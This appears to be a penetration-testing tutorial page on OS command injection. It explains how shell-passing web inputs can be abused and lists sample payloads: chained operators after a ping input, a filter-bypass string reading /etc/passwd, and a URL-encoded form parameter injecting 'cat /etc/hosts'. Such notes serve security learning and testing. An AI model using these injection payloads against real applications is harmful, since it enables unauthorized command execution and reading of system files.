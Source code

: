 # OS Command injection

Allow to execute arbitrary system commands on a host operating system via a vulnerable application. Normally happens when a web application takes a user-supplied input and passes it directly to a shell interpreter.

We can find a typical example of this vulnerability as follows:

* When internally using functions like _system_ or _shell\_exec_ which pass input to an internal command interpreter

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We send a petition with a command
curl -X POST http://url/? -d "cmd=whoami"
#If being handled by system(), it will respond with the output of the command, letting us we can talk to the internal shell
```
{% endcode %}

***

* In some cases, the application will receive input and redirect it to an internal command executed in the server shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
#A form receives the IP as input and executes the ping command
8.8.8.8
#Example output
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=117 time=26.4 ms
...
#Ww see that it works like the following command inside
ping $input
```
{% endcode %}

***

* We can abuse this input to add other commands using the command operators

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">8.8.8.8; ls -la
<strong>8.8.8.8 &#x26; ls -la    
</strong>8.8.8.8 &#x26;&#x26; ls -la
8.8.8.8 | ls -la
8.8.8.8 || ls -la
</code></pre>

***

* Sometimes it could be sanitized to detect these symbols, so to avoid detection, we can combine operators and commands into a single string, which helps bypass filtering

{% code overflow="wrap" lineNumbers="true" %}
```bash
8.8.8.8|cat /etc/passwd
```
{% endcode %}

***

* This could also work on request parameters that are passed to an internal OS command

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>#Example, the parameters are pass to and 
</strong><strong>Content-Type: application/x-www-form-urlencoded
</strong>Id=15&#x26;name=a

# We could concatenate commands
Content-Type: application/x-www-form-urlencoded
Id=15&#x26;name=a%26cat%20%2fetc%2fhosts #Concatenating |cat /etc/hosts
</code></pre>
